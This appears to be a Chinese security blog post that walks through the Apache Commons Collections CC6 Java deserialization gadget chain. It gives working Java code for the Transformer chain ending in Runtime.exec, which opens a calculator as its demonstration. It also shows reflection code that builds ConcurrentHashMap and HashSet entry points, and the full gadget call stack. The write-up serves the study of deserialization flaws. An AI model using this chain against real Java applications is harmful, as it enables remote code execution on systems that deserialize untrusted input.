







DEBUG
IDea debug 环境做个配置，要不会跑飞很迷

TiedMapEntry.hashcode
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
|
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;
public class TiedMapEntryExec {
public static void main(String[] args) {
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String[].class },new Object[]{new String[]{
"/bin/bash","-c","open /System/Applications/Calculator.app"
}})
};
Transformer tchain = new ChainedTransformer(transformers);
Map normalMap = new HashMap();
Map lazyMap = LazyMap.decorate(normalMap,tchain);
TiedMapEntry tme = new TiedMapEntry(lazyMap,null);
tme.hashCode();
}
}
|
cc6前半段利用LazyMap.get调用Transform方法触发反序列化。后半段利用TiedMapEntry.hashCode()调用getValue方法

为什么这里key可以是null或者任意值,
i=0调用需要返回Runtime.class,

这里利用了new ConstantTransformer(Runtime.class)直接在调用transform返回iConstant,该值在实例化ConstantTransformer就进行了赋值，所以当i=0与Object值无关及与key值无关。

ConcurrenHashMap跳板构造
现在需要找到跳板，该跳板必须重写了readObject方法，且最后能够执行TiedEntryExec.hashCode()
简化调用栈如下
1
2
3
4
5
| ObjectInputStream.readObject
ConcurrentHashMap.readObject
TiedMapEntry.hashCode
TiedMapEntry.getValue
LazyMap.get
|
跟进java.util.concurrent.ConcurrentHashMap.readObject()，在第1447调用hashCode，这里需要构造k为TiedMapEntry，才能触发利用链.

K、V值由Node存储，发现putVal方法中实现对类参数table的赋值，可以通过反射构造K、V值。注意这里K不能直接构造为TiedMapEntry，会直接调用LazyMap.get()

ConcurrenHashMap构造如下
1
2
3
4
5
6
7
8
9
10
11
| ConcurrentHashMap chm = new ConcurrentHashMap(1);
chm.put("key","value");
Field f = ConcurrentHashMap.class.getDeclaredField("table");
f.setAccessible(true);
Object[] table = (Object[])f.get(chm);
Object node = table[0];
Field k = node.getClass().getDeclaredField("key");
k.setAccessible(true);
k.set(node,tme);
|
HashSet跳板构造
跟进HashSet.readObject，put方法只要控制e参数和map参数，就能调用TideMapEntry.HashCode()

实际构造和ConcurrenHashMap类似，只不过这里需要对map值进行反射设置
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| HashSet hashSet = new HashSet(1);
hashSet.add("anything");
Field setMap = hashSet.getClass().getDeclaredField("map");
setMap.setAccessible(true);
HashMap hashMap = (HashMap) setMap.get(hashSet);
Field setTable = hashMap.getClass().getDeclaredField("table");
setTable.setAccessible(true);
Object[] table = (Object[]) setTable.get(hashMap);
Object Node = table[1];
Field setKey = Node.getClass().getDeclaredField("key");
setKey.setAccessible(true);
setKey.set(Node,tme);
|
调用栈
1
2
3
4
5
6
7
8
9
10
11
12
| Gadget chain:
java.io.ObjectInputStream.readObject()
java.util.HashSet.readObject()
java.util.HashMap.put()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
org.apache.commons.collections.functors.ChainedTransformer.transform()
org.apache.commons.collections.functors.InvokerTransformer.transform()
java.lang.reflect.Method.invoke()
java.lang.Runtime.exec()
|
参考链接
https://www.anquanke.com/post/id/190468#h3-8
http://scz.617.cn:8/network/202003241127.txt
https://www.iteye.com/blog/bluepopopo-486548
https://xz.aliyun.com/t/7029